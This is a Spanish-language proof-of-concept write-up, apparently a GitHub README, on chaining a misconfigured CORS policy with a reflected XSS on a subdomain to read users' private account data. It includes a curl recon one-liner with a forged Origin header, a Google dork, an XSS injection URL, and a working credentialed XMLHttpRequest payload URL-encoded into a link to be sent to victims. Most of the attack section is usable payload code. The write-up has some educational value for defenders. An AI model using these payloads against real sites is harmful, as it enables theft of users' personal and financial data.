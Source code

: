 
## CORS mal Configurado


Este una pequeña nota de como un COSR mal configurado puede usarse para exponer información valiosa en un sitio web si necesidad de atacarlo directamente solo se vale de un subdominio abandonado y un link infectado con una XSS reflect.

## Vector de Ataque
Comienza con una Spider de Burpsuite para scrapear informacion de paginas webs objetivos, el host copia toda la URL y la guarda en un archivo de texto.

```
$cat corstexturl.txt | soru -u | anew | xargs -n 1 -I{} curl -sk -H “Origin: test.com” | grep “Access-control-allow-origin: test.com”
```


  ahora en buscas de vulnerabilidades se encuantra que un sitio en espesifico tiene dominios abandonados, supongamos que la pagina es padre es www.attacker.com, se buscara esto:

```
HTTP Request:

    GET /api/return HTTP/1.1
    Host: www.attacker.com
    Origin: evil.attacker.com
    Connection: close
```
  Obtenemos

    HTTP Response:
    HTTP/1.1 200 OK
    Access-control-allow-credentials: true
    Access-control-allow-origin: evil.attacker.com


## Endpoint Vulnerable
Este endpoint de la API podria devolver información privada del usuario, como el nombre completo, la dirección de correo electrónico, la contraseña, el número de pasaporte, los datos bancarios, etc.

Para abusar de estamala configuración y poder realizar un ataque, como filtrar información privada de los usuarios, necesitamos reclamar un subdominio abandonado (Subdomain Takeover) o encontrar un XSS en uno de los subdominios existentes. 

Así que se decicide optar por la segunda opción, encontrar un XSS en uno de los subdominios existentes.

Rápidamente se busca en Google y se encuentra un xss reflect en uno de los supuestos subdominios test.attacker.com. Aquí está el dork de google que se usa para encontrar xss.

```
sitio: *. attacker.com -www ext: jsp
```

Luego, se abre la URL y en la página de origen se busca una query para un XSS reflect.

Una vez que encuentra el xss reflect en su subdominio se vuelve fácil explotarlo.

```
https://test.attacker.com/patter.jsp?acct="><script>alert(document.domain)</script>
```

## Prueba del PoC
Entonces, para aprovechar esta falla en la configuración del CORS, solo necesitamos que se reemplazar el alert del XSS payload por un  (document.domain), con el siguiente código: 

```js
function cors() {  
var xhttp = new XMLHttpRequest();  
xhttp.onreadystatechange = function() {    
    if (this.status == 200) {    
    alert(this.responseText);     
    document.getElementById("demo").innerHTML = this.responseText;    
    }  
};  
xhttp.open("GET", "https://www.attacker.com/api/account", true);  
xhttp.withCredentials = true;  
xhttp.send();
}
cors();
```


sera introducidad en el query string asi :

```html
https://test.attacker.com/patter.jsp?facct="><script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.attacker.com/api/account",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
```

ahora a esperar que un usuario use el link preparado con nuestro XSS reflect que lo redirijira al sitio y 
BOOM

![información expuesta](https://miro.medium.com/max/700/1*5MrjPaE5BBKKQITe4vX-_A.png)


tenemos un PoC de la información privada expuesta.

